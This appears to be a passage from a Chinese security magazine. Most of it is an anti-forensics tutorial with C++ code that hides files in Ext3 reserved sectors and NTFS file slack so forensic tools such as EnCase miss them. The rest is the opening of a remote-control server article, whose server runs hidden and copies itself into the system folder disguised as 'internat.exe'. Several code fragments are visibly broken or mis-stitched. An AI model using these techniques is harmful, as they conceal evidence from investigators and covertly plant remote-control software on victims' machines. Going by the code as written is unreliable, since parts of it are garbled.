上面这段简单的代码即可实现将文件 hide.txt 和 hide2.doc 内容分别写入到 Ext3 分区的引导扇区和 0 号块组中 superblock 扇区后 4 个空闲扇区处。上述代码成功后，并不会影响 Ext3 文件系统的任何性能，其照常正常工作。在不指定这些特定位置时，如 EnCase、FTK 及 iLook 等取证分析工具都难以检测此文件系统中存在任何异常或者隐藏有机密信息。图 1 和图 2 是笔者执行上述代码后 Boot 引导扇区和 superblock 后 4 个空闲扇区的实际内容。



图1



图2

从图中可知，在 0 号块组的 0 号扇区及其 4 号扇区位置都已成功写入了文件内容。覆盖上面提到的保留区域，需要注意不要修改其他区域，否则 Ext2/3 系统会出现故障，系统无法启动。如在覆盖 Boot 扇区时，意外修改了 superblock 则会引发异常。

总结上述分析，我们完全可以通过 C++ Qt3 编程设计出一个取证与反取证软件，实现对这些区域的覆写与内容提取。选择一个指定的文件，然后选择上述提到的可覆写区域进行覆盖；当文件内容大于选定的覆写区域时，则提示覆写失败，拒绝写入操作。同样，也可对这些区域进行扫描读取，查看这些区域是否存在机密信息。

#### NTFS 文件系统下信息隐藏区域分析

在 NTFS 文件系统中，其核心结构为主文件表 MFT，存储了文件的所有基本信息，包括文件 MAC 时间、文件大小、文件内容或其存放位置等。MFT 占用两个扇区共 1024 字节。一般情况下，文件对应的 MFT 表项总存在或多或少的空闲空间。此类情形主要发生在：  
（1）对应的 MFT 表项为非目录文件表项且文件内容很大（即不足以在 MFT 表项中存放），此时 MFT 表项只需要描述文件的相关属性信息；  
（2）MFT 表项为目录文件表项，但其下对应的子目录及子文件很少，或者其下的子目录及子文件均已删除（当文件删除后，其父目录下的 MFT 表项中 90 属性内容会被清除）。  
一般情况下，MFT 只占用前一个扇区的一部分内容，后一扇区基本为空。

而在 NTFS 下，每个文件至少对应一个 MFT 表项，假设 NTFS 分区下存在 10000 个文件，且每个文件平均都存在 1 个扇区的空闲空间，则空闲大小为 10000×512=5000KB，可以利用此 5000KB 存放大量的隐私信息。

当文件大小大于 1500 字节时，文件会被存放到指定的簇号中。一般情况下，簇大小为 4KB，即 8 个扇区大小。显然，当文件介于 1500 字节与 4KB 大小之间时，会存在一部分空闲空间；而且文件大小正好为簇大小整数倍的概率太小，故总存在一些扇区是空闲的。注意：扫描扇区时，读者可能会发现扇区空闲的几率很小，几乎都存在数据。其实这是一种假象。设想以下情形：文件 A 占用 3 个簇大小空间，用户在某一时刻删除了此文件，然后再创建一个新文件 B，B 的大小为 9KB，假设文件 B 正好从文件 A 原来所占的起始簇开始覆盖 A 的内容，而 B 文件在第 3 簇中只占用 1KB 大小，故剩余 6 个扇区的内容并没有覆盖，但也不为空，这 6 个扇区仍然存放着 A 文件的部分内容。文件遗留的空间往往存在几个扇区大小，将分区下所有类似文件遗留的空间累加起来，将会是一个很大的空闲空间，足以被利用以存放大量的隐私信息。

现已经知道文件在末簇总会存在一定的空闲空间，但扫描分区时又很难发现这些空扇区，那么如何判断哪些文件存在空闲空间呢？进一步分析，指定文件可利用的扇区数有多少呢？这里我们可以遍历整个分区下的所有 MFT 表项，MFT 表项的 80 属性下存放了指定文件的实际大小，相对 80 属性头偏移 0x30 位置的 4 字节内容即为文件实际大小，而文件所占簇数则存放在 80 属性的 DataRuns 簇运行结构列表中。根据文件实际大小和文件所占簇数，即可确定文件末簇空闲空间大小，此时我们就可借助 WriteFile 函数和 SetFilePointer 函数对指定的空闲扇区进行写入操作，实现机密数据的隐藏。某一文件大小及所占簇数如图 3 所示。



从图中可知，文件实际大小为 0x15BA3E = 1423934 字节，故其所占簇数 N = 1423934 / 4096 + 1 = 348，末簇所占字节数为 M = 1423934 % 4096 = 2622，故此文件末簇剩余空间为 4096 - 2622 = 1474 字节。从图 3 中也可以得出文件所占簇数 N = 0x15C = 348。根据文件的起始簇号 0x20B284 = 2142852，通过 SetFilePointer 函数将文件指针移到 (2142852 + 348 - 1) × 8 + 2 = 17145594 号逻辑扇区处，再调用 WriteFile 函数对扇区写数据，即可利用图 3 中的文件隐藏 1474 字节的机密信息。OK，原理部分就谈到这里，下面重点分析代码设计过程中的关键技术，通过代码剖析讲解如何开发基于 NTFS 的反取证软件。

#### NTFS 下反取证软件设计与研发

因为 MFT 下剩余的空间往往很小，每个子 MFT 剩余空间平均为 512 字节左右，而文件末簇剩余的空间往往为几十 KB 大小，故为了使得文件隐藏与提取过程不至于将文件分离成多个小片，应尽量选择较大的空闲扇区进行隐藏。因此，笔者研发的反取证软件只分析 NTFS 下的文件末簇剩余空间。

```cpp
void CNtfsTree::ConstructMFTTree(CNtfsTree *pDirHeadTree, DWORD dwStartSec, DWORD dwTotalSec){
    DWORD dwBytesPerSec, dwSecPerClus, dwTotalSecTemp;
    BOOL isDirectoryFlag; // 标记是否为目录
    wchar_t fileName[256] = {0}; // 暂存文件名
    char MFTFlag[5] = {0};
    LPBYTE lpBuffer, lpTempBuffer; WORD wMFTHeadAttrLen = 0;
    DWORD dwMFT10AttrLen,dwMFT20AttrLen,dwMFT30AttrLen,dwMFT40AttrLen,dwMFT50AttrLen;
    DWORD dwMFT60AttrLen,dwMFT70AttrLen,dwMFT80AttrLen;

    isDirectoryFlag = FALSE;
    dwBytesPerSec = pDirHeadTree->m_dwBytesPerSec;
    dwSecPerClus = pDirHeadTree->m_dwSecPerClus;
    dwTotalSecTemp = dwStartSec + dwTotalSec;
    while(dwStartSec < dwTotalSecTemp){
        // 循环遍历每个子 MFT 表项
        if(g_processBlock > g_totalMFT) break;
        g_showDlg.ShowProcBlock(++g_processBlock);

        lpBuffer = (LPBYTE)malloc(2 * dwBytesPerSec);
        ReadDisk(pDirHeadTree->m_hPartition, dwStartSec, 2, lpBuffer);
        memset(MFTFlag, 0, sizeof(MFTFlag));
        memcpy(MFTFlag, lpBuffer, 4);
        if(strcmp(MFTFlag, "FILE") != 0 || *(LPWORD)(lpBuffer + 0x14) == 0){
            dwStartSec += 2;
            free(lpBuffer); lpBuffer = NULL; continue;
        }
        // ... 其余代码省略
    }
}
```

```cpp
(lpBuffer + 0x16) == 2) || (*(LPWORD)(lpBuffer + 0x16) == 3)) {
    dwStartSec += 2;
    // 直接跳过此 MFT，忽略正常文件
    free(lpBuffer); lpBuffer = NULL; continue;
}

wMFTHeadAttrLen = *(LPWORD)(lpBuffer + 0x14);
// 获取 $MFT 头部的属性长度
CNTfsTree *pNTFSTree = new CNTfsTree;
// 创建一个新节点，存放文件属性信息
pNTFSTree->m_dwSecPerClus = dwSecPerClus;
pNTFSTree->m_hPartition = pDirHeadTree->m_hPartition;
// 保存 NTFS 分区句柄
pNTFSTree->isDirectory = FALSE;
lpTempBuffer = lpBuffer;
lpTempBuffer += wMFTHeadAttrLen;
if(*(LPDWORD)lpTempBuffer == 0x10) {
    // 表示存在属性
    DWORD dwFileAttr;   // 获取文件属性状态
    DWORD dw10AttrOff = *(LPWORD)(lpTempBuffer + 0x14);
    dwFileAttr = *(LPWORD)(lpTempBuffer + dw10AttrOff + 0x20);
    if(dwFileAttr == 0x22) {
        // 忽略隐藏文件，这里只考虑可读写的正常文件
        delete pNTFSTree; pNTFSTree = NULL;
        free(lpBuffer); lpBuffer = NULL;
        dwStartSec += 2;
        continue;
    }
    dwMFT10AttrLen = *(LPWORD)(lpTempBuffer + 0x04);
    lpTempBuffer += dwMFT10AttrLen;
}

if(*(LPDWORD)lpTempBuffer == 0x20) {
    // 表示存在属性
    dwMFT20AttrLen = *(LPWORD)(lpTempBuffer + 0x04);
    lpTempBuffer += dwMFT20AttrLen;
}

if(*(LPDWORD)lpTempBuffer == 0x30) {
    // 表示存在属性
    dwMFT30AttrLen = *(LPWORD)(lpTempBuffer + 0x04);
    // 获取 $MFT 的属性总长度
    lpTempBuffer += dwMFT30AttrLen;
    // 测试是否存在两个属性
    if(*(LPDWORD)lpTempBuffer != 0x30)
        lpTempBuffer -= dwMFT30AttrLen;

    DWORD NeedBytes;
    DWORD dwParentMFTNum;
    // 保存父目录文件参考号
}
```

```cpp
dwMFT30AttrLen = *(LPWORD)(lpTempBuffer + 0x04);
// 获取 $MFT 的属性总长度
DWORD AttrValOffset = *(LPWORD)(lpTempBuffer + 0x14);
// 得到属性值的偏移
lpTempBuffer += AttrValOffset;  // 属性值偏移
dwParentMFTNum = *(LPDWORD)(lpTempBuffer);
// 得到父目录的文件参考号
pNTFSTree->m_dwParentMFTNum = dwParentMFTNum;

DWORD fileNum = *(lpTempBuffer + 0x40);
// 直接转到描述文件名偏移处，获取文件名属性
memcpy(fileName, lpTempBuffer + 0x42, fileNum * 2);
NeedBytes = WideCharToMultiByte(CP_ACP, NULL, fileName, wcslen(fileName), NULL, 0, NULL, NULL);
WideCharToMultiByte(CP_ACP, NULL, fileName, wcslen(fileName), pNTFSTree->m_fileName, NeedBytes, NULL, NULL);
memset(fileName, 0, sizeof(fileName));

pNTFSTree->m_dwStartSec = dwStartSec;
// 保存当前文件的 MFT 起始扇区
lpTempBuffer += dwMFT30AttrLen - AttrValOffset;
// 直接跳转到属性后面的属性

if(*(LPDWORD)lpTempBuffer == 0x40) {
    // 表示存在属性
    dwMFT40AttrLen = *(LPWORD)(lpTempBuffer + 0x04);
    lpTempBuffer += dwMFT40AttrLen;
}
if(*(LPDWORD)lpTempBuffer == 0x50) {
    // 表示存在属性
    dwMFT50AttrLen = *(LPWORD)(lpTempBuffer + 0x04);
    lpTempBuffer += dwMFT50AttrLen;
}
if(*(LPDWORD)lpTempBuffer == 0x60) {
    // 表示存在属性
    dwMFT60AttrLen = *(LPWORD)(lpTempBuffer + 0x04);
    lpTempBuffer += dwMFT50AttrLen;
}
if(*(LPDWORD)lpTempBuffer == 0x70) {
    // 表示存在属性
    dwMFT70AttrLen = *(LPWORD)(lpTempBuffer + 0x04);
    lpTempBuffer += dwMFT50AttrLen;
}

LPBYTE tempBuff = lpTempBuffer;
// 暂存指针值
```

```cpp
if(*(LPDWORD)tempBuff==0x80){
    dwMFT80AttrLen = *(LPWORD)(tempBuff + 0x04);
    // 得到属性总大小
    if(*(tempBuff + 0x08) == 0) {
        // 表示为常驻属性，直接忽略。因为在常驻属性下，
        // 文件内容直接存放在 MFT 表项的 80 属性下，故不存在末簇情况
        delete pNTFSTree; pNTFSTree = NULL;
        free(lpBuffer); lpBuffer = NULL;
        dwStartSec += 2; continue;
    }
    else { // 表示为非常驻属性
        WORD RunValOffset = *(LPWORD)(tempBuff + 0x20); // 运行偏移
        DWORD runBytes = dwMFT80AttrLen - RunValOffset;
        pNTFSTree->m_fileLen = *(LPDWORD)(tempBuff + 0x30); // 文件实际长度
        tempBuff += RunValOffset;
        // 读取簇运行列表，获取文件的起始扇区及所占簇数
        GetContentUseClus(tempBuff, runBytes, pNTFSTree);

        DWORD len = pNTFSTree->m_fileLen;
        DWORD dwFileTotalSec = 0, dwFileSec = 0;
        DWORD dwFileSecNum = 0;
        double dwFileFreeSize = 0.0;
        unsigned int vect_size = pNTFSTree->pVRunVal.size();

        for(unsigned int i=0; i<vect_size; i++){
            // 计算出文件所占扇区总数
            dwFileTotalSec += pNTFSTree->pVRunVal[i]->dwTotalSecNum;
        }

        if(len % 512 == 0) dwFileSecNum = len / 512;
        else dwFileSecNum = len / 512 + 1;

        // 计算出文件实际大小所占扇区数
        dwFileFreeSize = (double)(dwFileTotalSec - dwFileSecNum) / 2.0;
        if(dwFileFreeSize < 1.0){
            // 忽略可隐藏区域小于1KB大小的文件
            delete pNTFSTree; pNTFSTree = NULL;
            free(lpBuffer); lpBuffer = NULL;
            dwStartSec += 2; continue;
        }
        else{
            // 计算出文件所占扇区数（除去末簇所占扇区数）
            dwFileLastClusSec = pNTFSTree->pVRunVal[vect_size-1]->dwTotalSecNum;
            dwFileSec = dwFileTotalSec - dwFileLastClusSec;
            // 获取文件末簇的起始扇区数
            LastClusStartSec = pNTFSTree->pVRunVal[vect_size-1]->dwStartSecNum;
        }
    }
}
```

```cpp
// 计算出文件末簇未使用扇区的起始扇区数，即文件可隐藏的起始扇区数
DWORD dwHideStartSec = LastClusStartSec + dwFileSecNum - dwFileSec;
pNTFSTree->m_fileHideSize = dwFileFreeSize;   // 保存文件空闲大小
pNTFSTree->m_HideStartSec = dwHideStartSec;   // 保存可隐藏的起始扇区数

DWORD dwParentMFTNum = pNTFSTree->m_dwParentMFTNum; // 保存父目录文件参考号
if(dwParentMFTNum != 0x05){
    // 若不是根目录文件，则需要递归调用 GetParentFileName
    GetParentFileName(dwParentMFTNum, pNTFSTree);
}

if(InsertNode(pDirHeadTree, pNTFSTree)){
    // 将文件节点插入到目录树中
    for(int i=0; i<pNTFSTree->pVRunVal.size(); i++){
        delete pNTFSTree->pVRunVal[i];
        pNTFSTree->pVRunVal[i] = NULL;
    }
    delete pNTFSTree; pNTFSTree = NULL;
    if(lpBuffer != NULL) free(lpBuffer);
    dwStartSec += 2; continue;
}

dwStartSec += 2; // 遍历下一个 MFT 表项
```

深层次递归搜索父目录文件属性函数 `GetParentFileName()` 和构建目录树的函数 `InsertNode()` 这里不再给出，读者可以参阅笔者2009年1、5两期的文章《基于NTFS文件系统的数据恢复程序设计》和《自主研发数据恢复软件》。下面，给出如何对指定逻辑扇区进行读写操作的代码。

```cpp
// 从指定扇区号dwSector开始，读取dwLength长度的数据，放入lpData指向的缓冲区
BOOL ReadDisk(HANDLE hpartition, DWORD dwSector, DWORD dwLength, LPVOID lpData){
    unsigned char* lpBuffer = (unsigned char*)malloc(dwLength * 512);
    DWORD dwCB; LARGE_INTEGER offset;
    offset.QuadPart = UInt32x32To64(dwSector, 512);
}

SetFilePointer(hpartition, offset.LowPart, &offset.HighPart, FILE_BEGIN);
ReadFile(hpartition, lpBuffer, dwLength * 512, &dwCB, NULL);
memcpy(lpData, lpBuffer, dwLength * 512);
free(lpBuffer);
return TRUE;

// 从指定扇区号 dwSector 开始，写 dwLength 长度的数据
BOOL WriteDisk(HANDLE hpartition, DWORD dwSector, DWORD dwLength, char* lpBuffer){
    DWORD dwCB;
    LARGE_INTEGER offset;
    offset.QuadPart = UInt32x32To64(dwSector, 512);
    SetFilePointer(hpartition, offset.LowPart, &offset.HighPart, FILE_BEGIN);
    if(!WriteFile(hpartition, lpBuffer, dwLength * 512, &dwCB, NULL)){
        DWORD error = GetLastError();
        MessageBox(NULL, "写入文件失败!", NULL, IDOK);
        return FALSE;
    }
    return TRUE;
}
```

```cpp
DWORD dwStartSecNum, dwTotalSec;
selectItem = m_listCtrl.GetItemCount() - 1;
dwStartSecNum = vpNtfsTree[selectItem]->m_HideStartSec;
dwTotalSec = vpNtfsTree[selectItem]->m_fileHideSize * 2;
FILE *fp;
if((fp = fopen(g_SelectFilePath, "rb+")) == NULL){
    MessageBox("需要隐藏的文件打开失败!");
    return;
}
fseek(fp, 0L, SEEK_END);
HideFile_size = ftell(fp); // 测定需要隐藏的文件大小
if(HideFile_size > dwTotalSec * 512){
    MessageBox("隐藏文件太大，执行操作可能会覆盖其它扇区，导致文件系统出错!");
    return;
}
fseek(fp, 0, SEEK_SET);
char *buff = new char[HideFile_size];
fread(buff, sizeof(char), HideFile_size, fp);
WriteDisk(vpNtfsTree[selectItem]->m_hPartition, dwStartSecNum, dwTotalSec, buff);
delete []buff;
fclose(fp);
```

ReadFile 和 WriteFile 函数的第 1 个参数即 NTFS 分区的句柄值，需要调用 CreateFile 函数获取，代码为：

```cpp
partition->m_hPartition = CreateFile(szDrive,
    FILE_READ_DATA | FILE_WRITE_DATA,
    FILE_SHARE_READ | FILE_SHARE_WRITE,
    NULL, OPEN_EXISTING, NULL, 0);
```

注意对逻辑磁盘操作时，`szDrive` 文件名必须为 `"\\\\.\\X:"` 形式。故每次 New 一个节点时，都需要保存分区的句柄值，以便后面调用 WriteFile 函数对指定扇区进行写入操作。下面给出文件隐藏代码：

```cpp
void CAntiForensicsDlg::OnBnClickedHide(){
    int selectItem = -1;
    unsigned long HideFile_size = 0;
    if(g_strFilePath == ""){ MessageBox("请先选择您需要隐藏的文件!"); return; }
    for(int index=0; index<m_listCtrl.GetItemCount(); index++){
        if(m_listCtrl.GetCheck(index)){
            selectItem = index;
            // 获取 listCtrl 控件中选中的文件
            break;
        }
    }
    if(selectItem < 0){ MessageBox("请选择寄宿文件, 即作为载体实施隐藏的文件!"); return; }
}
```

OK，就分析这么多了，根据上面的分析再结合 2009 年 1 期和 5 期的相关文章，即可很好地开发出一款反取证软件。下面看看软件测试结果和界面效果吧，如图 4 所示。



图 4

下面笔者选择 Persistent·BIOS infection.txt 文件作为寄宿文件进行隐藏，需要隐藏的文件内容为“Can you help me? I want to hide some secret information, How can I hide it to make nobody can find it?”。从图 4 中可知，寄宿文件可利用的大小空间为 1.00KB，足以隐藏前面的内容。隐藏的起始扇区数为 85670 号扇区，点击“浏览”按钮，选择需要隐藏的文件，然后点击“隐藏”按钮即可完成文件的完好隐藏，效果如图 5 所示。



图 5

在进行文件隐藏时，应尽可能地选择一个拥有较大空闲空间的文件作为寄宿文件，以便将隐藏文件很好地隐藏到寄宿文件中。在软件设计过程中，要十分准确地计算出寄宿文件末簇空闲扇区的起始扇区号和空闲扇区数大小，否则寄宿文件就有可能被覆盖掉了，导致原始的寄宿文件无法打开，甚至整个 NTFS 文件系统崩溃，那将是致命的。

借助正常文件末簇未使用完的空间实施文件隐藏，能够很好地躲避当前的计算机取证软件的分析，如 EnCase 等高级取证软件。除非取证分析员事先知道文件被隐藏到了指定文件中，否则是无法提取出隐藏的机密文件的。可能有些读者会想到 NTFS 下的文件流特性，即 Alternate Data Stream（ADS）。在命令行提示符下键入 `type c:\test.pdf > ExistAds.txt:test.pdf` 命令，即可实现在原文件 ExistAds.txt 中插入数据流文件 test.pdf。

在命令行下键入“dir /a”命令查看原文件大小时，文件大小并没有发生变化。通过这种简单的文件流方式，确实是可以实施文件隐藏。但是针对 ADS 的取证分析工具太多了，而且这种 ADS 方式健壮性很差，当将带有 ADS 文件流的文件拷贝到非 NTFS 分区时，此文件流会自动删除。即使你采用可压缩的 ADS，虽然可以实施拷贝了，但是当你利用 WinRAR 工具解压时，则会自动显示出文件中包含有流文件，故借助 ADS 流实施文件隐藏已经极为不可靠了。

#### 小结

本文详细地分析了利用 Linux 下主流文件系统 Ext2/3 和 Windows 下 NTFS 文件系统实施文件机密信息隐藏的技术，详细给出了这两种文件系统的可隐藏区域点，并通过代码设计给出了研发基于文件系统反取证软件的关键技术。最后通过代码解析的方式，进一步阐述了编写代码中需要注意的细节。借助正常文件所占空间的剩余扇区数实施文件隐藏，可以有效地对抗当前的各种计算机取证工具的分析，健壮性良好。

前置知识：VC

关键词：编程、混合模型、I/O模型

### 基于混合模型的远程控制软件服务端编写

文／重庆通信学院 杨阳 邓勇



对于远程控制软件服务端程序的一个要求就是运行时要隐藏，因此在 VC 中我们创建工程的类型是“Win32 Application”。

WinMain() 函数中，首先指定服务端程序在服务端电脑中的位置。

## WinMain() 入口函数

Win32 应用程序的入口函数是 WinMain()。服务端程序的另一个要求是位置隐藏，因此在……

##### 1. 服务端程序绝对路径的确定

```c
if((dirsize2 = GetSystemDirectory(direct, dirsize)) == 0)
{
    return FALSE;
}
direct[dirsize2] = 0;
strcpy(fi, direct);
strcat(fi, "\\internat.exe");
```

其中，第 1 行通过 `GetSystemDirectory()` 得到服务端系统文件夹的路径……第 6 行调用 `strcpy()` 将得到的系统文件夹路径拷贝到 `fi` 中……第 7 行调用 `strcat()` 指定服务端程序在服务端电脑中的绝对路径……接下来应当将服务端程序拷贝到服务端电脑指定的位置上去。

##### 2. 服务端程序的拷贝

在 `WinMain()` 函数中有如下代码：

```c
if(FindFirstFile(fi, &wfd) == INVALID_HANDLE_VALUE)
{
    int i;
    i = GetModuleFileName(hInstance, cur, dirsize);
    cur[i] = 0;
    CopyFile(cur, fi, TRUE);
}
```

其中，第 1 行调用 `FindFirstFile()` 函数搜索指定路径的文件……如果函数执行失败，返回值则是 `INVALID_HANDLE_VALUE`。

第 4 行中调用 `GetModuleFileName()` 函数得到包含指定模块的可执行文件的绝对路径……第 5 行将字符串末位设为 `0`……第 6 行调用 `CopyFile()` 将服务端程序拷贝到指定位置；`FALSE` 表示覆盖，`TRUE` 表示不覆盖。

##### 3. 套接字的初始化

接下来调用 `WSAStartup()` 函数对服务端使用的套接字进行初始化，方法与《基于混合模型的远程控制软件服务端编写》一文中使用的方法相同。不要忘记加入与套接字相关的头文件与库函数。

```c
#include <Winsock2.h>
#pragma comment(lib, "ws2_32")
```

在 Windows 中，系统与程序之间通过消息进行交互，因此需要创建服务端的窗口接收来自系统的消息。

#### 服务端窗口的创建

对于服务端程序，我们可以为其设置程序图标和程序最小化时的图标，这就需要在 Win32 程序中导入图标资源。

##### 1. 资源的导入

在程序菜单栏中选择“插入”，之后在下拉菜单中选择“资源”，然后在“插入资源”……对话框中将资源类型设置为“Icon”，点击右侧的“导入”按键，导入图标资源。接下来保存文件，选择 rc 文件保存的路径，该路径应该选择 PeerServer.dsw 文件所在文件夹。然后在程序文件的“Resource Files”文件夹的右键菜单中选择“Add Files to Folder”，导入之前保存的 rc 文件。在程序文件的“Header Files”文件夹中导入声明该图标资源的头文件“resource.h”。最后，将导入的图标资源的 ID 修改为 IDI_PEERSERVER，该资源作为服务端程序的图标。使用相同的方法导入另一个图标资源，并将其 ID 修改为 IDI_SMALL，该资源用于服务端程序最小化时的图标。

在创建服务端窗口之前，需要对窗口对应的窗口类进行注册。

##### 2. 窗口类的注册

我们通过一个自定义函数 RegisterMainWndClass() 完成窗口类的注册。首先在 PeerServer.cpp 执行文件的起始位置声明该函数。

```cpp
ATOM RegisterMainWndClass(HINSTANCE hInstance);
```

